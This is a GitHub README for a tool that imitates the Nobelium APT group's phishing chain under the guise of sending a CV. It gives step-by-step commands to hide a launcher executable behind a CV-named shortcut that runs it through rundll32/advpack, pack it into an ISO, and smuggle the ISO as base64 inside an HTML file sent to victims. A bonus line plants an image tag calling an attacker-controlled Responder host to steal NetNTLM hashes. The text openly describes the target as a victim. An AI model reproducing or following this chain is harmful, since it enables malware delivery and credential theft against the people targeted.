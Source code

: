 # Mimicking Nobelium APT group to send your resume or a reverse shell if you are evil

![](icono/cv.gif)

It's been a while I wanted to try to mimick the cybercriminal group Nobelium's early-stage toolset and I thought it would be fun to do that sending a CV.

##Let's get started

First of you can clone this repo : 

```
git clone https://github.com/fredtep/SendCV.git
```

## In Linux : 
Modify calc.cs to suite your needs then compile with : 

```bash
mcs -out:calcLauncher.exe calc.cs
```

## In windows : 

1/ Create a Directory

```mkdir CV\Hidden```

2/ Hide the Hidden Folder

```attrib +h CV\Hidden```

3/ Copy the Hidden/CV-Hack3r-2024.pdf inside the Hidden Folder

4/ Copy calcLauncher.exe inside the CV Folder

5/ Hide calcLauncher.exe (right click > properties > Hidden)

6/ Now create a shorcut :

- right click > New > Shorcut

- **For the path choose :** C:\Windows\System32\rundll32.exe c:\windows\system32\advpack.dll,RegisterOCX calcLauncher.exe

- **For the name choose :** CV

Bonus/ You can change the icon as well if you want : right click > properties > Change Icon

You can select some icon from here : %systemroot%\system32\imageres.dll

## Building the ISO file

First of all we need to get oscdimg.exe which is installed along with the Windows Assessment and Deployment Kit (Windows ADK) 
To do so download ADK at this address : [https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install](https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install)

Now you can run the following command

```"C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\x86\Oscdimg\Oscdimg" -m -u2 -h -lCV "C:\users\fred\Desktop\CV" "C:\Users\fred\Desktop\CV.iso"```

Now just take your file back to linux and encode the ISO to base64.

```cat CV.iso | base64 -w 0```

Finally copy the output and replace the content of the b64iso variable inside cv.html (toward the end of the script)

Upload cv.html to a server or send it as is and enjoy !

## WICKED BONUS

You can capture the NetNTLM hash of your victim by running responder in a server you own and change line 119 in cv.html : 
```<img src="file://<MY EVIL IP RUNNING RESPONDER>/responder.png" alt="">```

---------------------------------------------------------------

Filesaver.js can be found [here](https://github.com/eligrey/FileSaver.js/tree/master)
Nobelium breakdown can be found [here](https://www.microsoft.com/en-us/security/blog/2021/05/28/breaking-down-nobeliums-latest-early-stage-toolset/)